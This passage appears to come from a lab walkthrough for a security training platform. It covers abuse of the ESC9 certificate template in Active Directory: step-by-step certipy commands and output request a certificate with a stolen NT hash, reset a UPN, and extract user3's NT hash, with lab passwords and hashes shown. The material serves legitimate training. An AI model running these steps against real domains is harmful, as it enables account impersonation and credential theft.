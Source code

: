 Afterward, students need to use the `req` command of `certipy`, specifying the template `ESC9` for the `-template` option and the previously attained NT hash `ee22ddf0f8a66db4217050e6a948f9d6` of `user2` for the `-hashes` option; students will attain a `PFX` certificate for the user `user3`:

Code: shell

```shell
certipy req -u user2@lab.local -ca lab-LAB-DC-CA -template ESC9 -hashes ee22ddf0f8a66db4217050e6a948f9d6
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy req -u 'user2@lab.local' -ca lab-LAB-DC-CA -template ESC9 -hashes ee22ddf0f8a66db4217050e6a948f9d6 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 63
[*] Got certificate with UPN 'user3'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'user3.pfx'
```

Subsequently, students need to revert the `UPN` of `user2` to its original value (i.e., `user2`), using the `account` command of `certipy` along with the `update` positional argument, specifying `user2` for the `-user` and `-upn` options:

Code: shell

```shell
certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy account update -u blwasp@lab.local -p Password123! -user user2 -upn user2

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'user2':
    userPrincipalName                   : user2
[*] Successfully updated 'user2'
```

At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `user3` and `Un-PAC-the-hash` within it; students will attain the NT hash `01b60104db80993eb9ead5d8f9127eec`:

Code: shell

```shell
certipy auth -pfx user3.pfx -domain lab.local
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy auth -pfx user3.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: user3@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'user3.ccache'
[*] Trying to retrieve NT hash for 'user3'
[*] Got hash for 'user3@lab.local': aad3b435b51404eeaad3b435b51404ee:01b60104db80993eb9ead5d8f9127eec
```